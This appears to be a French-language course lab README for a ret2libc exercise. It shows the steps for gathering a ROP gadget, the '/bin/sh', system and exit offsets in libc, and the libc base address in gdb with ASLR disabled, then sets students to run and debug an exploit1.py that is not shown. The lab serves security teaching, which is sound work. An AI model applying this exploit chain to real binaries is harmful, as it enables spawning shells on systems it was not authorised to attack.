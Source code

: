 # Objectifs: trouver les adresses des varibles:
libc_base_address
ret
pop_rdi
binsh_addr
system_addr
exit_addr

## Installer ropper : 

Ropper est principalement écrit en Python. 

Il s'agit d'un outil open-source pour l'analyse de fichiers binaires et la recherche de gadgets ROP (Return-Oriented Programming), développé par Alexander Margaritov

sudo apt update ; sudo apt install ropper

lancer ropper: ropper (Entrée)

## pop_rdi (000000000002a3e5):

![poprdi gadget](https://raw.githubusercontent.com/adell2024/intro_securite_info/master/02-ret2libc/images/poprdi.png)


## binsh_addr (1d8678):

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

 1d8678 /bin/sh

## system_addr (0000000000050d70):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

## exit_addr (00000000000455f0):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep exit

2760: 00000000000455f0    32 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.2.5

les décalages (offsets) que nous avons découverts ci-dessus seront ajoutés à l'adresse où la libc sera chargée. Puisque l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.

## libc_base_address (0x00007ffff7c00000):

gdb ./ret2libc -q

gdb-peda$ start

gdb-peda$ vmmap

Start              End                Perm	Name

0x00400000         0x00401000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00401000         0x00402000         r-xp	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00402000         0x00403000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00403000         0x00404000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00404000         0x00405000         rw-p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00007ffff7c00000 0x00007ffff7c28000 r--p	/usr/lib/x86_64-linux-gnu/libc.so.6 


## exploit1.py

>> Modifiez le script pour utiliser les valeurs correspondant à votre environnement pour les variables mentionnées précédemment.

>> Exécutez votre exploit et observez son échec dû à une violation de segmentation (signal SIGSEGV).

>> Initialisez une session GDB, importez le payload payload1 et procédez à une exécution pas à pas. Confirmez que toutes les adresses sont correctement configurées, mais notez que l'exécution complète aboutit à une violation de segmentation (segfault). Déterminez la fonction responsable de cette erreur.
